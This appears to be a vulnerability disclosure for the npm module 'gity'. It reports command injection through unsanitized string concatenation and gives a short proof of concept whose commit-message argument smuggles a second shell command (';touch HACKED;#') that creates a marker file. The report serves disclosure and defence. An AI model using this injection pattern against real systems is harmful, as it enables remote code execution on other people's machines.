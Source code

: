 # :bug: Description

The `gity` module is vulnerable against `arbitrary command injection` caused by `insecure concatenation` of `user supplied` data which aren't sanitized properly, leading to `RCE`.

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var Git = require('gity');
 
var git = Git()
  .add('*.js')
  .commit('-m "added js files";touch HACKED;#')
  .run();

```
2. Make sure that the `HACKED` file doesn't exist 
3. Execute the following commands in another terminal:

```bash
npm i gity # Install affected module
node poc.js #  Run the PoC
```
4. The `HACKED` file is created :)
